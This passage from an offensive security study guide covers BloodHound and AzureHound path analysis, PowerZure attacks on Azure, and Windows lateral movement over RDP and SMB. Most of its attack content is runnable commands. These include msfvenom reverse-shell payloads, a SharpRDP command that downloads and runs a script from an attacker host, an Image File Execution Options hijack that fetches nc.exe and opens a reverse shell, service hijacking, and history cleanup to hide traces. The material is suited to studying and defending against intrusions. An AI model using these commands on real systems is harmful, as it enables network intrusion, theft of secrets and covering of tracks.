MATCH (c:Computer) OPTIONAL MATCH (u1:User)-[:AdminTo]->(c) OPTIONAL MATCH (u2:User)-[:MemberOf*1..]->(:Group)-[:AdminTo]->(c) WITH COLLECT(u1) + COLLECT(u2) AS TempVar,c UNWIND TempVar AS Admins
RETURN c.name AS COMPUTER, COUNT(DISTINCT(Admins)) AS ADMIN_COUNT, COLLECT(DISTINCT(Admins.name)) AS USERS
ORDER BY ADMIN_COUNT DESC
-- Find any node with WriteSPN edge (for targeted Kerberoasting)
MATCH p=((n)-[r:WriteSPN]->(m)) RETURN p4.9.6 Saving Custom Queries
Custom queries are stored in customqueries.json:
- Windows:
%APPDATA%\bloodhound\customqueries.json - Linux:
~/.config/bloodhound/customqueries.json
Format:
{
"queries": [
{
"name": "From [user] to Anything",
"category": "Shortest Paths",
"queryList": [
{
"final": true,
"query": "MATCH p = allshortestPaths((n)-[*1..]->(c)) WHERE n.name =~ '(?i)[user].*' AND NOT c=n RETURN p",
"allowCollapse": true
}
]
}
]
}Dynamic custom query with Owned Principals dropdown:
{
"queries": [
{
"name": "Search From Owned to Anything",
"category": "Shortest Paths",
"queryList": [
{
"final": false,
"title": "Select the node to search...",
"query": "MATCH (n {owned:true}) RETURN n.name",
"props": {
"name": ".*"
}
},
{
"final": true,
"query": "MATCH p = allshortestPaths((n)-[*1..]->(c)) WHERE n.name = $result AND NOT c=n RETURN p",
"allowCollapse": true,
"endNode": "{}"
}
]
}
]
}This creates a two-step query: first lists all owned nodes in a dropdown, then runs the universal path query from the selected node. Refresh BloodHound (or click the update icon next to Custom Queries) after editing the file.
Community resources for custom queries:
Methodology
-
MATCH p = allshortestPaths((n)-[*1..]->(c)) WHERE n.name =~ '(?i)COMPROMISED_USER.*' AND NOT c=n RETURN p -
MATCH p=(g:Group)-[r:Owns|WriteDacl|GenericAll|WriteOwner|GenericWrite|ForceChangePassword]->(c:Computer) WHERE g.name STARTS WITH "DOMAIN USERS" RETURN p -
MATCH (u:User) WHERE u.description IS NOT NULL RETURN u.name, u.description -
Get-DomainObjectAcl -Identity user -domain DOMAIN.HTB -ResolveGUIDs
4.10 BloodHound for Blue Teams
BloodHound is equally valuable for defenders. Blue teams can use it to proactively identify misconfigurations, dangerous permissions, and attack paths before attackers discover them. Two open-source tools extend BloodHound for defensive use: BlueHound (automated collection, analysis, and reporting) and PlumHound (path analysis and remediation guidance).
4.10.1 Using BloodHound Defensively
Blue teams should regularly monitor for:
- Administrators with sessions on non-Domain Controller machines (credential exposure)
- Dangerous privileges held by the Domain Users group
- Paths from Kerberoastable users to high-value targets
- Users with excessive local admin rights on computers
- Accounts that do not require Kerberos pre-authentication (AS-REP Roastable)
- Users with disproportionately many active sessions
- Non-DC accounts with DCSync rights
4.10.2 BlueHound
BlueHound automates the collection-analysis-reporting cycle. Key features:
- Full Automation: One-click collection, analysis, and reporting
- Scheduled Collection: Daily, weekly, or monthly SharpHound runs
- Community Driven: Import/export dashboards and configurations
- Custom Reporting: Create custom Cypher-based dashboards without coding
After installation, launch BlueHound and authenticate to Neo4j before running collections or dashboards:
# Extract BlueHound
Expand-Archive .\BlueHound-win32-x64-1.1.0.zip .
# Launch BlueHound.exe
# Login with Neo4j credentials (neo4j / [password])
# Configure:
# 1. Data Import tab: enable SharpHound, set Tool Path (C:\Tools\SharpHound.exe)
# 2. Configurations tab: set Domain Admins group, crown jewels servers
# 3. Query Runner: click RUN ALL to populate reportsBlueHound supports custom Cypher-based dashboard widgets. Example; count enabled users:
MATCH (u:User {enabled:true})
RETURN COUNT(u)Dashboards can be imported/exported as JSON files for sharing across teams.
4.10.3 PlumHound
PlumHound wraps BloodHound's Cypher queries into operations-consumable reports. Its most valuable feature is the Path Analyzer (-ap), which identifies which specific relationship to remove to break an attack path.
# Install PlumHound
python -m pip install -r requirements.txt
# Basic test
python PlumHound.py --easy -p [password]
# Path Analyzer: identify which relationship to remove to break a path
python PlumHound.py -p [password] -ap "DOMAIN USERS@[domain]" "WS01.[domain]"Example output:
Analyzing paths between DOMAIN USERS@[domain] and WS01.[domain]
---------------------------------------------------------------------
Removing the relationship GpLink between DEFAULT DOMAIN POLICY@[domain] and [domain] breaks the path!
Removing the relationship Contains between [domain] and WS01.[domain] breaks the path!Important caveat: Not all PlumHound recommendations are safe to implement. For example, removing a DC from the Domain Controller container would break domain functionality. Always validate recommendations before implementing them.
Additional defensive tools:
Methodology
-
python PlumHound.py -p [password] -ap "DOMAIN USERS@DOMAIN.HTB" "DC01.DOMAIN.HTB"
Remediation strategy:
4.11 Azure Enumeration with AzureHound
BloodHound supports Azure AD and Azure Resource Manager enumeration through AzureHound, a Go binary that collects data via the MS Graph and Azure REST APIs. Azure attack path analysis follows the same graph theory principles as on-prem AD, but with Azure-specific nodes and edges prefixed with AZ.
4.11.1 Azure Nodes and Edges
Azure Nodes:
| Node | Description |
|---|---|
AZTenant | Azure AD tenant; dedicated instance of Azure AD |
AZUser | User in Azure AD (email, display name, job title) |
AZGroup | Group in Azure AD for access management |
AZApp | Application registration in Azure AD |
AZSubscription | Logical container for Azure resources |
AZResourceGroup | Container for resources sharing a lifecycle |
AZVM | Virtual machine in Azure |
AZDevice | Device registered in Azure AD |
AZServicePrincipal | Security identity used by apps/services to access Azure resources |
Azure Edges:
| Edge | Description | Abuse Potential |
|---|---|---|
AZAddMembers | Can add members to a group or directory role | Self-escalation |
AZAddOwner | Can add owners to subscriptions/management groups | Gain ownership |
AZAppAdmin | Admin role for an Azure AD application | Manage app credentials |
AZCloudAppAdmin | Admin role for a cloud application | Manage cloud app credentials |
AZContains | Group/role contains a member | Inheritance |
AZContributor | Contributor role at resource scope | Manage all resource types |
AZExecuteCommand | Can execute commands on a VM | Remote code execution |
AZGetCertificates | Can retrieve certificates | Credential theft |
AZGetKeys | Can retrieve keys | Key extraction |
AZGetSecrets | Can retrieve secrets | Secret extraction from Key Vault |
AZGlobalAdmin | Global Administrator role | Full control of Azure AD |
AZKeyVaultContributor | Key Vault Contributor at resource/RG level | Manage key vaults |
AZManagedIdentity | Resource has a managed identity | Authenticate as the resource |
AZOwns | Owns a resource | Full control |
AZPrivilegedRoleAdmin | Full access to Azure AD and all services | Highest privilege |
AZResetPassword | Can reset passwords for other users | Account takeover |
AZRunAs | Can impersonate an account | Privilege escalation |
AZUserAccessAdministrator | Can manage user access to Azure resources | Grant self additional roles |
AZVMAdminLogin | Can log in to VM as administrator | VM compromise |
Not all Azure edges are fully documented. Cloud environments change rapidly, and edge definitions may evolve with Azure platform updates.
4.11.2 Using AzureHound
AzureHound supports multiple authentication methods: username/password, JWT, refresh token, service principal secret, service principal certificate.
# Run AzureHound with username/password
.\azurehound.exe -u "[user]@[tenant-domain]" -p "[password]" list --tenant "[tenant-domain]" -o all.jsonImport the output all.json into BloodHound via the Upload Data button. Then analyze using the Transitive Object Control option on the authenticated user's node to determine what privileges they have.
Key consideration: Azure users do not have read access to all Azure objects by default. If the authenticated user lacks rights to read subscriptions or VMs, AzureHound will not enumerate those objects. To discover more objects, compromise a user with broader read permissions (e.g., a member of a "Subscription Reader" group) and re-run AzureHound.
4.11.3 Azure Lab Setup with TheEdgeMaker
TheEdgeMaker is a PowerShell script that creates vulnerable Azure configurations for practice. It creates users, resource groups, key vaults, VMs, and misconfigured permissions.
# Run as Administrator on the target machine
PS C:\Tools\TheEdgeMaker> .\TheEdgeMaker.ps1
# Log in with your Azure account when prompted
# Keep default location (East US) or change as neededAfter TheEdgeMaker completes, note the tenant name (e.g., plaintexthacktheboxgmail.onmicrosoft.com); you will need it for AzureHound.
Methodology
-
.\azurehound.exe -u "user@tenant.onmicrosoft.com" -p "password" list --tenant "tenant.onmicrosoft.com" -o azure_data.json
4.12 Azure Attacks via BloodHound
After enumerating Azure with AzureHound, the attack methodology mirrors on-prem AD: identify edges, abuse them sequentially to escalate privileges. PowerZure is the primary framework for Azure attacks, functioning as the Azure equivalent of PowerView for on-prem AD. The Az PowerShell module provides the same capabilities as native Azure cmdlets.
4.12.1 PowerZure Setup
PowerZure function categories:
# Connect to Azure with compromised credentials
$username = "[user]@[tenant-domain]"
$password = ConvertTo-SecureString "[password]" -AsPlainText -Force
$Cred1 = New-Object System.Management.Automation.PSCredential $username, $password
Connect-AzAccount -Credential $Cred1
# Import PowerZure
Import-Module .\PowerZure.psd1
# List all available functions
Invoke-PowerZure -h| Category | Key Functions |
|---|---|
| Info Gathering | Get-AzureADUser, Get-AzureADGroupMember, Get-AzureADRoleMember, Get-AzureCurrentUser, Get-AzureTarget, Show-AzureKeyVaultContent, Show-AzureStorageContent |
| Operational | Set-AzureADUserPassword, Add-AzureADGroupMember, Add-AzureADRole, Add-AzureADSPSecret, Get-AzureKeyVaultContent, Invoke-AzureRunCommand, Invoke-AzureCustomScriptExtension, New-AzureBackdoor, New-AzureADUser |
4.12.2 Azure Password Reset Attack
If a compromised user has the Password Administrator role (AZResetPassword edge), they can reset passwords for non-administrator users:
# Reset [user2]'s password ([user] has AZResetPassword)
Set-AzureADUserPassword -Username [user2]@[tenant-domain] -Password [password]
# Connect as [user2]
$username = "[user2]@[tenant-domain]"
$password = ConvertTo-SecureString "[password]" -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential $username, $password
Connect-AzAccount -Credential $Cred24.12.3 Azure Group Ownership Abuse
If the compromised user owns a group (AZOwns edge), they can add members to it:
# [user2] owns "Subscription Reader" group -- add self
Add-AzureADGroupMember -Group "Subscription Reader" -Username [user2]@[tenant-domain]
# Verify membership
Get-AzureADGroupMember -Group "Subscription Reader"
# Re-enumerate with [user2]'s new permissions
.\azurehound.exe -u "[user2]@[tenant-domain]" -p "[password]" list --tenant "[tenant-domain]" -o all-[user2].jsonRe-importing the new collection into BloodHound may reveal additional objects (subscriptions, VMs, Key Vaults) that the previous user could not read.
4.12.4 Reading Azure Key Vault Secrets
Azure Key Vault stores secrets (API keys, passwords, certificates, cryptographic keys). If a user has AZGetSecrets on a Key Vault, they can extract its contents.
Attack chain: [user] (AZResetPassword) -> reset [user3]'s password -> [user3] (AZGetSecrets on Key Vault)
# Connect as [user], reset [user3]'s password
Connect-AzAccount -Credential $Cred1
Set-AzureADUserPassword -Username [user3]@[tenant-domain] -Password [password]
# Connect as [user3]
$username = "[user3]@[tenant-domain]"
$password = ConvertTo-SecureString "[password]" -AsPlainText -Force
$Cred3 = New-Object System.Management.Automation.PSCredential $username, $password
Connect-AzAccount -Credential $Cred3
# List secrets in the Key Vault
Get-AzKeyVaultSecret -VaultName [vault-name]
# Extract the secret value (stored as SecureString, must convert to plaintext)
$secret = Get-AzKeyVaultSecret -VaultName [vault-name] -Name [secret-name]
[System.Net.NetworkCredential]::new('', $secret.SecretValue).Password4.12.5 Executing Commands on Azure VMs
If a user has AZVMAdminLogin or the Virtual Machine Contributor role (AZExecuteCommand edge), they can run commands on VMs:
# Connect as [user], reset [user4]'s password
Connect-AzAccount -Credential $Cred1
Set-AzureADUserPassword -Username [user4]@[tenant-domain] -Password [password]
# Connect as [user4]
$username = "[user4]@[tenant-domain]"
$password = ConvertTo-SecureString "[password]" -AsPlainText -Force
$Cred4 = New-Object System.Management.Automation.PSCredential $username, $password
Connect-AzAccount -Credential $Cred4
# Method 1: Using PowerZure
Invoke-AzureRunCommand -VMName "AZVM-01" -Command whoami
# Output: nt authority\system
# Method 2: Using Az PowerShell module
Invoke-AzVMRunCommand -ResourceGroupName "PRODUCTION" -CommandId "RunPowerShellScript" -VMName "AZVM-01" -ScriptString "whoami"
# Output: nt authority\systemWhy these attacks work: Azure's RBAC model, like on-prem AD's ACL model, allows delegation of administrative actions. The Password Administrator role is designed to let helpdesk staff reset user passwords without full admin access. However, if a Password Administrator can reset the password of a user who has Contributor access to VMs or Key Vaults, the delegation creates an implicit privilege escalation path. The root cause is the same as on-prem: transitive permissions that were never intended to chain together.
Methodology
-
Connect-AzAccount -Credential $creds Import-Module .\PowerZure.psd1 -
Get-AzureCurrentUser -
Set-AzureADUserPassword -Username target@tenant.onmicrosoft.com -Password NewP@ss123 -
Add-AzureADGroupMember -Group "GroupName" -Username user@tenant.onmicrosoft.com -
$secret = Get-AzKeyVaultSecret -VaultName VAULT_NAME -Name SECRET_NAME [System.Net.NetworkCredential]::new('', $secret.SecretValue).Password -
Invoke-AzureRunCommand -VMName "VM-NAME" -Command "whoami" # Or using Az module: Invoke-AzVMRunCommand -ResourceGroupName "RG" -CommandId "RunPowerShellScript" -VMName "VM" -ScriptString "whoami"
Remediation for Azure attacks:
5. Windows Lateral Movement
Lateral movement refers to the techniques used to move through a network after gaining initial access. It involves pivoting from one compromised system to another, typically with the goal of escalating privileges, accessing sensitive data, or reaching high-value assets such as domain controllers. Effective lateral movement requires credentials (passwords, hashes, tickets, SSH keys, or session cookies) and a deep understanding of network architectures, available services, and protocols.
Why lateral movement matters: Defenders who understand lateral movement techniques can implement more effective segmentation, monitoring, and access controls. Attackers who understand these techniques can identify weaknesses in network defenses and chain together access paths that reach otherwise isolated targets.
5.1 Introduction and Core Concepts
Lateral movement is the process of pivoting through a network after initial access, using obtained credentials or tokens to reach additional systems. Understanding the distinction between direct and indirect techniques, credential types, and network segmentation is critical for choosing the right approach.

5.1.1 MITRE ATT&CK Framework Mapping
The MITRE ATT&CK framework categorizes lateral movement techniques under the Lateral Movement tactic (TA0008). Understanding the technique IDs helps correlate offensive actions with detection engineering and threat intelligence.
| Technique ID | Name | Description |
|---|---|---|
| T1021 | Remote Services | Use of legitimate remote services like RDP, SMB, and SSH to move through a network |
| T1021.001 | Remote Desktop Protocol (RDP) | Using RDP to interact with a remote system's desktop |
| T1021.002 | SMB/Windows Admin Shares | Exploiting SMB shares to access files and execute commands |
| T1021.003 | Distributed Component Object Model | Using DCOM to interact with software components on remote systems |
| T1021.004 | SSH | Utilizing SSH to securely connect and control remote systems |
| T1021.005 | VNC | Using VNC for remote control of systems |
| T1077 | Windows Admin Shares | Abusing administrative shares for lateral movement |
| T1080 | Taint Shared Content | Modifying shared content to execute malicious code |
| T1105 | Ingress Tool Transfer | Transferring tools or files to remote systems for execution |
| T1210 | Exploitation of Remote Services | Exploiting vulnerabilities in remote services to gain access |
| T1550 | Use Alternate Authentication Material | Using stolen tokens, keys, or certificates for authentication |
| T1563 | Remote Service Session Hijacking | Hijacking legitimate remote service sessions |
| T1569.002 | Service Execution | Executing commands or scripts using system services |
| T1570 | Lateral Tool Transfer | Moving tools from one system to another within a network |
5.1.2 Direct vs. Indirect Lateral Movement
Direct lateral movement is where we can execute commands directly on the target machine and force it to connect back to us. For example, using PSExec from SRV01 to execute commands on SRV02 and obtain a shell.
Indirect lateral movement involves executing commands on a target machine when it receives instructions from another system we have compromised. For example, if SRV02 cannot be reached directly from SRV01 due to firewall rules, but SRV02 connects to a Windows Update Server (WSUS), we can compromise the WSUS server and deploy a fake update that executes our payload when SRV02 retrieves it.
Root cause: Indirect lateral movement works because trust relationships between systems (update servers, deployment tools, configuration management) create implicit execution paths that bypass network-level access controls.
5.1.3 Network Segmentation
Network segmentation divides a network into smaller, isolated segments to limit the spread of an attack. Proper segmentation can contain breaches, enhance monitoring, and improve access control. Segmentation is enforced by Layer 3 switches, routers, Linux servers, or firewalls that control inter-segment communication.
Key insight for attackers: Some systems may be unreachable due to segmentation. Identifying which segments can communicate and finding pivot points (dual-homed hosts, management servers, update servers) is critical for planning lateral movement paths.
5.1.4 Credential Types for Lateral Movement
| Credential Type | Description | Usage |
|---|---|---|
| Passwords | Plaintext secrets for authentication | Direct authentication to any service |
| NTLM Hashes | Cryptographic password representations (NT hash) | Pass the Hash attacks (PtH) |
| NTLMv2 Hashes | Challenge-response hashes captured on the wire | NTLM Relay attacks (cannot be used for PtH directly) |
| AES256 Keys | Kerberos encryption keys derived from passwords | Overpass-the-Hash with Rubeus or Mimikatz |
| Kerberos Tickets | TGTs or service tickets (TGS) | Pass the Ticket attacks |
| SSH Keys | Public/private key pairs | Key-based SSH authentication |
5.1.5 Enumeration Methods
Before exploiting remote services, we must discover them. Common enumeration methods include:
- Port scanning: Identifying open ports and services (Nmap, masscan)
- Service banners: Capturing version and configuration information from service responses
- Active Directory: Querying AD (LDAP, BloodHound) to retrieve information about systems and their services
- Credential testing: Using NetExec to spray credentials against discovered services
Methodology
-
nmap -sn [subnet] -
nmap -p 22,135,139,443,445,3389,5900,5985,5986 [subnet] -sV -
netexec smb [subnet] -u user -p 'password' -d domain.local netexec rdp [subnet] -u user -p 'password' -d domain.local netexec winrm [subnet] -u user -p 'password' -d domain.local netexec wmi [subnet] -u user -p 'password' -d domain.local netexec ssh [subnet] -u user -p 'password' -
# On Linux attack host (start chisel server) ./chisel server --reverse # On compromised Windows host (connect as client) .\chisel.exe client ATTACK_IP:8080 R:socks # Configure proxychains echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf
5.2 Remote Desktop Protocol (RDP)
Remote Desktop Protocol (RDP) is a proprietary Microsoft protocol that provides a full graphical desktop session on a remote computer. RDP supports remote sound, clipboard sharing, printers, file transfers, and high-resolution graphics. It operates on TCP port 3389 by default, though administrators can configure any port.
Why RDP is valuable for lateral movement: RDP traffic is common in enterprise environments, making it less likely to raise suspicion. It does not require administrative rights (members of Remote Desktop Users can connect), and it provides persistent, interactive access to the target system including file transfer, application execution, and clipboard sharing.
5.2.1 RDP Rights and Enumeration
By default, only members of the Administrators or Remote Desktop Users groups can connect via RDP. These rights are set locally on each machine, so the only way to enumerate them is with administrative rights on that target.
Enumeration with NetExec:
netexec rdp [subnet] -u [user] -p '[password]' -d [domain]A result showing (Pwn3d!) indicates the user has RDP rights on that target; it does not mean the user has administrative privileges.
5.2.2 Lateral Movement from Windows
Use the built-in mstsc.exe (Remote Desktop Connection) client:
mstsc.exeThis opens the GUI client where you specify the target IP/hostname and authenticate with credentials. RDP enables file transfer (drag and drop), running remote applications, printing to local printers, audio/video streaming, and clipboard sharing between local and remote systems.
5.2.3 Lateral Movement from Linux
Use xfreerdp to connect from Linux:
xfreerdp /u:[user] /p:'[password]' /d:[domain] /v:[target-ip] /dynamic-resolution /drive:.,linux| Flag | Purpose |
|---|---|
/u:Helen | Username |
/p:'RedRiot88' | Password |
/d:inlanefreight.local | Domain |
/v:10.129.229.244 | Target IP |
/dynamic-resolution | Enable dynamic window resizing |
/drive:.,linux | Redirect local filesystem to remote session |
Optimized xfreerdp for slow/proxy connections:
xfreerdp /u:[user] /p:'[password]' /d:[domain] /v:[target-ip] \
/dynamic-resolution /drive:.,linux /bpp:8 /compression -themes -wallpaper \
/clipboard /audio-mode:0 /auto-reconnect -glyph-cacheKey optimizations: /bpp:8 reduces color depth, /compression enables data compression, -themes and -wallpaper disable desktop visuals, /audio-mode:0 disables audio, -glyph-cache caches text characters.
5.2.4 Restricted Admin Mode
Restricted Admin Mode is a security feature that performs a network logon instead of an interactive logon during RDP, preventing credential caching on the remote system. It only applies to administrator accounts.
Root cause of the attack: While Restricted Admin Mode prevents credential theft, it paradoxically enables Pass the Hash and Pass the Ticket attacks because network logons accept NTLM hashes and Kerberos tickets directly, without requiring the plaintext password.
Check if Restricted Admin Mode is enabled:
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdminValue of 0 = enabled. Value of 1 = disabled. If the key does not exist, the feature is disabled.
Enable Restricted Admin Mode (requires admin):
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD5.2.5 Pass the Hash and Pass the Ticket for RDP
Pass the Hash from Linux: Use xfreerdp with the /pth flag. Requires Restricted Admin Mode enabled on the target.
proxychains4 -q xfreerdp /u:[user] /pth:62EBA30320E250ECA185AA1327E78AEB \
/d:[domain] /v:[dc-ip]Pass the Ticket from Windows: Use Rubeus to forge a TGT, import it, then connect with mstsc /restrictedAdmin.
# Step 1: Create a sacrificial process
.\Rubeus.exe createnetonly /program:powershell.exe /show
# Step 2: In the new PowerShell window, forge and import a TGT
.\Rubeus.exe asktgt /user:[user] /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:[domain] /ptt
# Step 3: Connect via RDP in restricted admin mode
mstsc.exe /restrictedAdminThe login window shows the currently logged-in user name, but authentication uses the imported ticket. Only members of the Administrators group can abuse Restricted Admin Mode.
5.2.6 SharpRDP
SharpRDP is a .NET tool that performs non-graphical, authenticated remote command execution through RDP using the mstscax.dll library. It connects, authenticates, executes commands, and disconnects without requiring a GUI client or SOCKS proxy.
Root cause: SharpRDP leverages the terminal services library to programmatically interact with an RDP session, using the Microsoft Run dialog to execute commands on the remote host.
# Set up Metasploit listener on Linux
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_https; set LHOST [attacker-ip]; set LPORT 8888; set EXITONSESSION false; set EXITFUNC thread; run -j"
# Generate payload
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[attacker-ip] LPORT=8888 -f psh-reflection -o s
# Host payload
sudo python3 -m http.server 80
# Execute via SharpRDP (from compromised Windows host)
.\SharpRDP.exe computername=srv01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://[attacker-ip]/s')" username=[DOMAIN]\[user] password=[password]Command execution is limited to 259 characters.
Cleanup: SharpRDP uses the Microsoft Run dialog which records commands. Use CleanRunMRU to clear the history:
# Transfer and compile CleanRunMRU
wget -Uri http://[attacker-ip]/CleanRunMRU/CleanRunMRU/Program.cs -OutFile CleanRunMRU.cs
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe .\CleanRunMRU.cs
.\CleanRunMRU.exe clearallMethodology
-
netexec rdp [subnet] -u user -p 'password' -d domain.local -
xfreerdp /u:User /p:'Pass' /d:domain.local /v:TARGET /dynamic-resolution /drive:.,linux -
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin -
xfreerdp /u:user /pth:NTHASH /d:domain.local /v:TARGET -
.\SharpRDP.exe computername=TARGET command="PAYLOAD" username=DOMAIN\user password=Pass -
.\CleanRunMRU.exe clearall
Remediation
Disable Restricted Admin Mode unless specifically needed. Monitor for unusual RDP connections (Event IDs 4624 logon type 10 for RDP, 4778/4779 for session reconnect/disconnect). Restrict RDP access to specific groups and enforce NLA (Network Level Authentication). Use session time limits and idle disconnection policies. Deploy application whitelisting to prevent unauthorized tools from executing via RDP sessions.
5.3 Server Message Block (SMB)
Server Message Block (SMB) is a network communication protocol for sharing files, printers, and other resources. It enables users and applications to read/write files, manage directories, and perform operations on remote servers as if they were local. SMB primarily operates on TCP ports 445 and 139, with some tools also using TCP port 135 for RPC communication.
Why SMB is critical for lateral movement: SMB is enabled by default on virtually all Windows systems. It provides access to administrative shares (ADMIN$, C$, IPC$), named pipes for service management (svcctl, atsvc, winreg), and supports multiple execution methods (service creation, scheduled tasks, registry manipulation).
5.3.1 SMB Rights and UAC Restrictions
SMB lateral movement requires an account that is a member of the Administrators group on the target. Ports TCP 445 and TCP 139 must be open, with TCP 135 optionally needed by some tools.
UAC Remote Restrictions: UAC may prevent remote code execution. Key points:
- Local admin privileges are required for remote SMB execution
- Local admin accounts that are not RID 500 cannot run tools like PsExec on Windows Vista and later (due to UAC token filtering)
- Domain users with local admin rights on a machine can execute tools like PsExec
- The built-in RID 500 local admin account can use PsExec regardless of UAC
Root cause: UAC Remote Restrictions filter the security token of non-RID-500 local administrators during network logons, stripping their administrative privileges. Domain accounts are not filtered because the domain token is used as-is.
5.3.2 SMB Named Pipes
Named pipes accessed via the IPC$ share over TCP 445 are the backbone of SMB-based lateral movement:
| Named Pipe | Purpose | Tools Using It |
|---|---|---|
svcctl | Remote service creation, starting, and stopping | psexec.py, smbexec.py, PsExec, SharpNoPSExec, NimExec |
atsvc | Remote scheduled task creation | atexec.py |
winreg | Remote Windows registry access | reg.exe |
5.3.3 SMB Enumeration
proxychains4 -q nmap [dc-ip] -sV -sC -p139,445 -Pn5.3.4 PSExec (Windows)
PsExec (Sysinternals suite) facilitates remote command execution over SMB. It operates on TCP 445 and TCP 139.
How PSExec works:
PsExec eliminates the double-hop problem because credentials are passed with the command, and it generates an interactive logon session (Type 2).
# Interactive shell as the specified user
.\PsExec.exe \\SRV02 -i -u [DOMAIN]\[user] -p [password] cmd
# Execute as NT AUTHORITY\SYSTEM
.\PsExec.exe \\SRV02 -i -s -u [DOMAIN]\[user] -p [password] cmd5.3.5 SharpNoPSExec (Windows)
SharpNoPSExec facilitates lateral movement by hijacking existing services rather than creating new ones, reducing detection risk. It queries all services on the target, identifies those that are disabled/stopped and running as LocalSystem, randomly selects one, temporarily changes its binary path to the attacker's payload, starts the service, waits ~5 seconds, then restores the original configuration.
Why it evades detection: No new service is created (only an existing service is temporarily modified), so security monitoring that alerts on new service creation will not trigger.
# Start listener on attack host
nc -lnvp 8080
# Execute SharpNoPSExec (uses current session credentials by default)
.\SharpNoPSExec.exe --target=[dc-ip] --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e BASE64_PAYLOAD"
# With explicit credentials
.\SharpNoPSExec.exe --target=[dc-ip] --username=[user] --password=[password] --domain=[domain] --payload="c:\windows\system32\cmd.exe /c REVERSE_SHELL"| Flag | Purpose |
|---|---|
--target= | Target IP or hostname (required) |
--payload= | Command to execute on target (required) |
--username= | Username for authentication (optional) |
--password= | Password (optional) |
--domain= | Domain name; defaults to . if unset (optional) |
--service= | Specific service to hijack; random if unset (optional) |
5.3.6 NimExec (Windows)
NimExec is a fileless remote command execution tool that exploits the Service Control Manager Remote Protocol (MS-SCMR). Instead of using traditional WinAPI calls, it manipulates the binary path of a specified or randomly selected service with LocalSystem privileges via custom-crafted RPC packets sent over SMB and the svcctl named pipe.
Why it is stealthy: NimExec manually crafts network packets instead of calling OS-specific functions, and authentication uses NTLM hashes directly. Nim's cross-compilation capabilities make it versatile across operating systems.
# Start listener
nc -lvnp 8080
# Execute NimExec with password
.\NimExec -u [user] -d [domain] -p [password] -t [dc-ip] -c "cmd.exe /c powershell -e BASE64_PAYLOAD" -v
# Execute NimExec with NTLM hash
.\NimExec -u [user] -d [domain] -h NTHASH -t [dc-ip] -c "cmd.exe /c PAYLOAD" -v| Flag | Purpose |
|---|---|
-u | Username for NTLM authentication |
-h | NTLM password hash |
-p | Plaintext password |
-t | Target IP/hostname |
-c | Command to execute |
-d | Domain name |
-s | Specific service name (optional) |
-v | Verbose output |
5.3.7 Reg.exe (Windows)
Reg.exe provides remote registry access via the winreg SMB pipe, enabling Remote Code Execution through registry manipulation. The Remote Registry service is enabled by default only on server-class operating systems.
By modifying the Image File Execution Options (IFEO) debugger key for a frequently used program, we can hijack its execution. When the target program launches, Windows runs our payload instead (or in addition to) the original binary.
# Set up SMB server to host nc.exe payload
sudo python3 smbserver.py share -smb2support /path/to/nc.exe
# Start listener
nc -lnvp 8080
# Add IFEO debugger key for msedge.exe on remote host
reg.exe add "\\srv02.[domain]\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\[target-ip]\share\nc.exe && nc.exe -e \windows\system32\cmd.exe [target-ip] 8080"When any user on the target opens Microsoft Edge, the debugger key triggers our payload, providing a reverse shell.
Note on SMB guest access: To use an unauthenticated SMB share, the following registry key must be set to 1:
# Check current value
reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth
# Enable insecure guest authentication
reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f5.3.8 Psexec.py (Linux)
psexec.py (Impacket) creates a remote service by uploading an executable with a random name to the ADMIN$ share, registers it via RPC and the Service Control Manager, then establishes communication through a named pipe for interactive command execution.
proxychains4 -q psexec.py [DOMAIN]/[user]:'[password]'@[dc-ip]5.3.9 smbexec.py (Linux)
smbexec.py leverages built-in Windows SMB functionality to run commands without uploading files, making it quieter. Communication occurs exclusively over TCP 445. It creates a service using MSRPC via the svcctl pipe.
proxychains4 -q smbexec.py [DOMAIN]/[user]:'[password]'@[dc-ip]5.3.10 services.py (Linux)
services.py (Impacket) interacts with Windows services via MSRPC. It supports listing, creating, starting, stopping, deleting, reading status, and modifying services. This technique is non-interactive (no real-time output).
# List services
proxychains4 -q services.py [DOMAIN]/[user]:'[password]'@[dc-ip] list
# Create a new service pointing to a reverse shell binary
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attacker-ip] LPORT=9001 -f exe-service -o rshell-9001s.exe
sudo smbserver.py share -smb2support ./
proxychains4 -q services.py [DOMAIN]/[user]:'[password]'@[dc-ip] create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\[attacker-ip]\\share\\rshell-9001.exe"
# Start the service
proxychains4 -q impacket-services [DOMAIN]/[user]:'[password]'@[dc-ip] start -name 'Service Backdoor'
# Cleanup: delete the service
proxychains4 -q services.py [DOMAIN]/[user]:'[password]'@[dc-ip] delete -name 'Service Backdoor'Modifying existing services: If a service is configured with a specific user account, modifying its binary path lets you impersonate that account:
# View current config
proxychains4 -q impacket-services [DOMAIN]/[user]:'[password]'@[dc-ip] config -name Spooler
# Change binary path to payload and set auto start
proxychains4 -q impacket-services [DOMAIN]/[user]:'[password]'@[dc-ip] change -name Spooler -path "\\\\[attacker-ip]\\share\\rshell-9001.exe" -start_type 2
# Start the modified service
proxychains4 -q impacket-services [DOMAIN]/[user]:'[password]'@[dc-ip] start -name Spooler5.3.11 atexec.py (Linux)
atexec.py (Impacket) uses the Windows Task Scheduler service via the atsvc SMB pipe. It remotely creates a scheduled task, runs it, then deletes it. Command output is written to a file accessed via the ADMIN$ share.
Requirement: Clocks on attacking and target machines must be synchronized to the minute.
# Start listener
nc -lnvp 8080
# Execute reverse shell via scheduled task
